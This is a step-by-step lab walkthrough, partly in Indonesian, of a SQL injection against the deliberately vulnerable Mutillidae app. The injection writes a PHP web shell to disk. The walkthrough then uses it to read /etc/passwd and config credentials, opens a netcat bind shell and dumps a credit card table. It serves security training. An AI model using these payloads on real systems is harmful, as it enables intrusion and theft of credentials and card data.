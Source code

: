 # Lesson 10 : SQL Injection Union Exploit #3 (Create PHP Execution Script)

## Start Web Browser Session to Mutillidae
- Buka browser kemudian akses Mutillidae sesuai ip metasploit pada alamat http://10.0.1.100/mutillidae
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/start_browser.png "Home page")

## Go To User Info Page
1. Go to User Info
   - OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info 
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_7/user_info.png "Home page")

## Inject Backdoor into User Info Page
1. Inspect the Name Textbox with Firebug
   - Klik kanan pada textbox **Name**, kemudian inspect element
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/inspect.png "Home page")
2. Change Text Box Size
   - Pada bagian size, tambahkan kapasistasnya dari yg semula 20 menjadi 100
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/change_size.png "Home page")
3. Second Union SQL Injection Attempt
   - Pada kolom textbox **Name** isikan 
   ```bash
	' union select null,null,null,null,'<form action="" method="post" enctype="application/x-www-form-urlencoded"><input type="text" name="CMD" size="50"><input type="submit" value="Execute Command" /></form><?php echo "<pre>";echo shell_exec($_REQUEST["CMD"]);echo "</pre>"; ?>' INTO DUMPFILE '/var/www/html/mutillidae/execute_command.php' -- 
   ```
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik tombol View Account Details
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/union.png "Home page")
4. Viewing the Results
	- Scroll kebawah untuk melihat hasilnya
	- Perhatikan hasilnya
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/result_union_2.png "Home page")

## Using the Backdoor for Basic Reconnaissance
1. Initial Reconnaissance
	- Buka url berikut pada browser 
	http://10.0.1.100/mutillidae/execute_command.php
	- Ketikkan perintah berikut pada textbox
	  ```whoami; pwd```
	- Klik tombol Execute Command
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/whoami.png "Home page")
2. Who is Logged On
   - Ketikkan perintah berikut pada textbox
	 ```w```
   - Klik tombol Execute Command
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/w.png "Home page")
3. Exploring /etc/passwd
   - Ketikkan perintah berikut pada textbox
	 ```cat /etc/passwd```
   - Klik tombol Execute Command
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/cat_passwd.png "Home page")
4. Network Reconnaissance
   - Ketikkan perintah berikut pada textbox
   ```bash
   netstat -nao | grep "0.0.0.0:"
   ```
   - Klik tombol Execute Command
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/netstat.png "Home page")

## Using the Backdoor for Database Reconnaissance
1. Database Reconnaissance
   - Ketikkan perintah berikut pada textbox
   ```bash
   find * -name "*.php" | xargs grep -i "password" | grep "="
   ```
   - Klik tombol Execute Command
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/find.png "Home page")
2. View Database Authentication Attributes
   - Ketikkan perintah berikut pada textbox
   ```bash
   cat config.inc | grep -v "<?php"
   ```
   - Klik tombol Execute Command
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/cat_config.png "Home page")

##  Using the Backdoor for Netcat Reconnaissance
1. Netcat Reconnaissance
   - Ketikkan perintah berikut pada textbox
   ```bash
   which nc; netstat -nao | grep 4444 | wc -l
   ```
   - Klik tombol Execute Command
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/which_nc.png "Home page")
2. Execute Netcat
   - Ketikkan perintah berikut pada textbox
   ```bash
   mkfifo /tmp/pipe;sh /tmp/pipe | nc -l 4444 > /tmp/pipe
   ```
   - Klik tombol Execute Command
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/mkfifo.png "Home page")
3. On BackTrack, Start up a "another" terminal window
	- Buka terminal lain pada kali linux
4. Connect to Netcat
   - Buka koneksi ke mutillidae menggunakan netcat
   - Ketikkan perintah : `nc 10.0.1.100 4444`
   - Ketikkan perintah : `hostname` untuk melihat hostname
   - Ketikkan perintah : `whoami` untuk melihat user yang digunakan
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/terminal_nc.png "Home page")
5. View Credit Card Information
   - Pada terminal ketikkan printah-perintah berikut :
   ```bash
   echo "show databases;" | mysql -uroot -psamurai
   echo "use nowasp; show tables;" | mysql -uroot -psamurai
   echo "select * from nowasp.credit_cards;" | mysql -uroot -psamurai
   ```
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/terminal_data.png "Home page")

## Note
- Agar file **execute_command.php** dapat dibuat pada metasploit, pastikan anda sudah menonaktifkan apparmor
- Konfigurasi untuk menonaktifkan AppArmor ada [disini](https://github.com/luqmanahmads/laporan-pksj/blob/master/Laporan_Tugas_Final/konfigurasi_apparmor.md)